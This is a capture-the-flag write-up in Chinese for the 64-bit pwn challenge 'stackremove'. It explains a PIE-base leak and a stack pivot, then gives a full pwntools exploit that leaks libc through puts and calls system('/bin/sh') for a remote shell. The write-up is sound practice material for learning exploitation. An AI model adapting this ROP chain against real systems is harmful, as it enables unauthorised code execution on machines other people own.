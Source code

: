 # stackremove

## 文件分析

下载`stackremove`, NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序

## 逆向

栈上空间很大，但是溢出rbp的空间很小，因此考虑栈迁移后ret2libc  
第一步先找到栈上一个有程序偏移的地址，利用`printf(..., buf + offset)`输入输入偏移后算出pieBase，
然后读取buf地址，方便栈迁移

具体过程讲解可以看newstar2023中的`stack_migration`Writeup

## 踩过的坑

1. `scanf`中的函数会执行`movaps ..., xmm0`，也会检查rsp！下次见到这个指令就要多加一个ret
2. 本地调试找的main函数获取pieBase，结果一连接，崩了，已检查发现pieBase不对，在栈上找了一个其他函数

## EXPLOIT

```python
from pwn import *
import LibcSearcher
sh = remote(???, 10043)
elf = ELF('stackremove')

# payload 1: get pieBase
sh.sendline(b'96') # locate __libc_csu_initAddr
sh.recvuntil(b'kie!') # skip
libcCsuAddr = u64(sh.recvline()[:6] + b'\0\0')

pieBase = libcCsuAddr - elf.symbols['__libc_csu_init']
putsPlt = pieBase + elf.plt['puts']
putsGot = pieBase + elf.got['puts']
popRdiAddr = pieBase + 0x953
leaveRetAddr = pieBase + 0x8ea
retAddr = pieBase + 0x8eb
mainAddr = pieBase + elf.symbols['main']

# print(hex(pieBase)) # check
sh.recvuntil(b':\n') # skip
space = int(sh.recvuntil(b'sh')[:14], 16)

# payload 2: migrate stack for the first time
sh.sendline(p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(retAddr) + p64(mainAddr) + b'0'*0x38 + p64(space - 8) + p64(leaveRetAddr)) # scanf check rsp

sh.recvuntil(b'ot!\n') # skip
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
systemAddr = libcBase + libc.dump('system')
shstrAddr = libcBase + libc.dump('str_bin_sh')

sh.sendline(b'0') # no need this time
sh.recvuntil(b':\n') # skip

# payload 3: run system
space = int(sh.recvline()[:14], 16)
sh.sendline(p64(popRdiAddr) + p64(shstrAddr) + p64(systemAddr) + b'0'*0x48 + p64(space - 8) + p64(leaveRetAddr))

sh.interactive()
```

Done.
